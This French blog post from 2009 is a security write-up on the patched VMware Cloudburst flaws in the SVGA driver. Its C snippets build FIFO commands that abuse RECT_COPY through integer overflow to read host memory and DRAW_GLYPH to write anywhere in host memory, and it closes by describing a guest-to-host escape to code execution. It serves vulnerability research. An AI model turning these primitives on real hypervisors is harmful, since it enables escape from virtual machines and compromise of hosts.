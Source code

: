 ```yaml
---
layout: post
title:  "VMWare Cloudburst suite"
date:   2009-09-14 19:48:00 +0100
categories: [security]
---
```

Un bref rappel:  
les failles que je décris ce situent dans le driver SVGA de VMWare ([patché depuis plusieurs mois](http://lists.vmware.com/pipermail/security-announce/2009/000055.html)). Nous pouvons interagir avec ce driver en écrivant des commandes dans la mémoire FIFO. (Si vous n’avez pas suivi allez voir le post précédent).

En fonction du fichier de configuration de votre VM et de la version de VMWare vous aurez accès ou non à certaine commande. Je ne traiterai pas toutes les commandes, pour jouer avec les requêtes 3D il vous faut ajouter à votre fichier de configuration: `mks.enable3d = “TRUE”`  
Les requêtes 3D ne sont pas documentés, et la mémoire FIFO est utilisée comme couche de transport pour l’architecture SVGA3D utilisé par D3D. Je ne m'y suis pas frotté. On fera juste le tour des commandes `RECT_COPY` et `DRAW_GLYPH`, qui appartiennent aux requêtes 2D.

__I] Lecture mémoire relative.__

Pour pouvoir lire la mémoire de l'host on peut utiliser la commande `RECT_COPY`:
{% highlight C %}
#define SVGA_CMD_RECT_COPY  0x3
/* FIFO layout: Source X, Source Y, Dest X, Dest Y, Width, Height */

vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000-offset); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, offset); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
{% endhighlight %}

`Source X` prend comme paramètre des coordonnées en PIXEL. C’est à dire que si `SourceX` vaut 1 la copie s'effectuera avec un décalage de 4 byte par rapport au début du frame buffer. Avec `0×80000000-offset` on obtient donc un offset négatif. Pour que la commande `RECT_COPY` soit exécutée il faut que deux conditions soit remplies; `SourceX>0` et `SourceX+Width<0` sachant que `SourceX+Width` est stocké dans une variable non signée, dans notre code on aura `SourceX+Width = 0×80000000-offset+offset = -2147483647`. Pour dumper la mémoire après le framme buffer il suffit de jouer avec les deux paramètres vu précédemment.
{% highlight C %}
vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, offset); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000-offset); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
{% endhighlight %}

__II] Lecture mémoire absolu.__

Le problème de `RECT_COPY` c’est que la lecture mémoire est relative. Si l’on essaye de copier une page mémoire de vmware-vmx qui n'existe pas, on crash le programme. Donc pour fiabiliser l'exploitation du bug il faut trouver où se situe le frame buffer du coté host. Sous un host vista la page précédant le frame buffer contient l’adresse que nous recherchons. Sous xp c’est plus ardu, on peut retrouver l'adresse avec une commande 3D ou se risquer à utiliser la même méthode que pour un host vista. Mais il y a des risques de violation d'accès mémoire. Chez moi la plupart de ces techniques fonctionnent (`VMWare player Build: 118166`) mais sur d'autre configuration cela est impossible.
{% highlight C %}
// Exemple pour vista
vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000 - 0x4); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x4); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
FBStartOnHost = VMWARE.FrameBuffer[2];

if(dest < FBStartOnHost) { // dest représente une adresse précise
  offset = (FBStartOnHost-dest)/4;
} else {
  offset = (dest-FBStartOnHost)/4;
}
{% endhighlight %}

Maintenant que l'on a retrouvé l'adresse du frame buffer on peut lire précisément la mémoire de l'host. On peut donc par exemple récupérer le `PeHeader` de vmware-vmx (se situant toujours en 0×400000). Pour avoir la version de VMWare et une vue précise des sections principales de l’exécutable code/data etc.

__III] Écriture en mémoire.__

On peu utiliser la commande `RECT_COPY` pour écraser la mémoire de l'host. Mais cette commande est mieux filtrée au niveau de la destination car dépendante des valeurs de `SVGA_REG_WIDTH` et `SVGA_REG_HEIGHT`. Donc on ne peut écraser seulement quelques Ko précédant le frame buffer. Sur ma version de VMWare la zone mémoire modifiable correspond au heap. J’ai pensé récupérer le `TEB` se situant en `0x7FFDF000`, pour ensuite exploiter un heap overflow. Mais à cette adresse j'ai des valeurs ne correspondant pas à une structure de type TEB. Et un heap overflow n'est pas forcement une exploitation fiable surtout quand il est dépendant de deux valeurs qu'on ne peut ajuster comme on le désire.

J'ai dû me tourner vers la commande `DRAW_GLYPH`. Pour vérifier si elle est disponible:
{% highlight C %}
WRITE_PORT_ULONG((PULONG)(IOports+SVGA_INDEX_PORT), SVGA_REG_CAPABILITIES);
if(READ_PORT_ULONG((PULONG)(IOports+SVGA_VALUE_PORT)) & SVGA_CAP_GLYPH) DbgPrint("Glyph enable\");
{% endhighlight %}

Si ce n'est pas le cas il faut rajouter `svga.yesGlyphs=”TRUE”` dans votre fichier de configuration. Cette commande n'est absolument pas filtrée au niveau de la destination en X/Y, permettant ainsi d'écrire en mémoire où l'on veut. La taille minimal d'un glyph est de 32 pixels et il vas écrire un seul pixel à l'offset `0×6` par rapport à `Destination X`. Il faut donc faire attention au violation d'accès quand on écrit au bord d’une plage mémoire. Un petit exemple:
{% highlight C %}
// On va écrire 0xD34DB33F dans le premier DWORD du frame buffer.
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, SVGA_CMD_DRAW_GLYPH);
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x3FFFFFF9); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x20); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x1); // Height
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0xD34DB33F); // Valeur
{% endhighlight %}

On peut donc lire/écrire en mémoire de façon fiable. En résumé le plus dur est de retrouver l'adresse du frame buffer sans cracher vmware-vmx. Il est ensuite possible d’outrepasser des protections tel que l'`ASLR` ou le `DEP`. Crée un canal de communication dans une zone mémoire partagée entre le guest et l’host (le framme buffer par exemple) et exécuter du code. VMWare tournant en Administrateur/root et possédant le token `SeLoadDriverPrivilege` sous windows, au niveau du code exécute on peut tout faire!
